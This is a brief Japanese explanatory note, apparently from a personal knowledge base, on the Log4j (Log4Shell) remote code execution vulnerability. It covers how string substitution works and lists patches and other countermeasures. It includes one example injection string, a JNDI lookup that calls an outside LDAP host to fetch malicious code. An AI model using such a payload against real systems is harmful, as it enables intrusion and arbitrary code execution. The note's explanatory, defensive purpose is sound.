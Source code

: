 ```yaml
---
CVSS Score: 10.0 (Critical)
Vulnerability Type: Remote Code Execution (RCE)
---
```

## 概要
Java向けlog処理フレームワークのLog4jのゼロディ脆弱性、攻撃者のインジェクションによってLog4jを使用するアプリに任意のコードを実行させることができる。

## 仕組み
Log4jの文字列埋め込み機能(String substitution)を利用し、定型文に変数を埋め込むことができ
`logger.info("User {} logged in", username)`
さらに、変数として、実行できるコード(`${}`とマーク）を埋め込むことができる
`logger.info("Current user: ${sys:user.name}")`

攻撃者は、例えば悪意のコードを仕込んだサーバに対するLDAP依頼を仕込んだコードをインジェクトすれば、ログとして表示される時に実行され、悪意のあるコードをダウンロードし、実行することがある
`${jndi:ldap://example.com/data}`

## 対策
1. Log4jを脆弱性が修正された2.15.0以降のバージョンにアップデート
2. log4jのJNDI Lookupを禁止する、JNDI Lookupが通常業務に必要な環境では、最小限の許可リストを設定する
3. ネットワーク外向けの[[LDAP]],[[RMI]]コネクションを禁止する
4. WAFに攻撃行為を検知、ブロックするルールを追加